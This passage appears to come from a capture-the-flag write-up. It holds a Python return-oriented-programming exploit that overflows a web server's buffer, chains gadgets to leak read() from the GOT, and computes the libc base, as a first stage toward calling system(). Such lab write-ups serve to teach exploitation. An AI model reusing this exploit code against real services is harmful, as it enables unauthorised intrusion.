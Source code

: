 ``` python
```

Ok, time for first stage. Let\'s try to leak address of read() and
substract read~off~ (offset) to get libc base address.

``` python

import httplib
import struct
import socket
import telnetlib
import urllib

def execute_payload(payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("localhost", 9999))
    #s.connect(("10.10.10.89", 1111))
    s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload)))
    response = s.recv(4096)
    s.close()
    return response

# padding to RIP
padding = "A" * 568

# got and plt
read_got = 0x603088 # read()@GOT address
write_plt = 0x400c50 # write()@PLT address

# offsets
system_off = 0x045390
read_off = 0x0f7250 # read() offset from libc base

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret

#### 1 - leak the libc base
buf = ""
buf += padding
buf += struct.pack("<Q", poprdiret)
buf += struct.pack("<Q", 0x4)
buf += struct.pack("<Q", poprsiret)
buf += struct.pack("<Q", read_got)
buf += struct.pack("<Q", 0xF)
buf += struct.pack("<Q", write_plt)

response = execute_payload(buf).split("File not found")[1]           
read_addr = struct.unpack("<Q", response[:8])[0]
print "read() is at", hex(read_addr)

libc_addr = read_addr - read_off
print "libc base is at", hex(libc_addr)
```
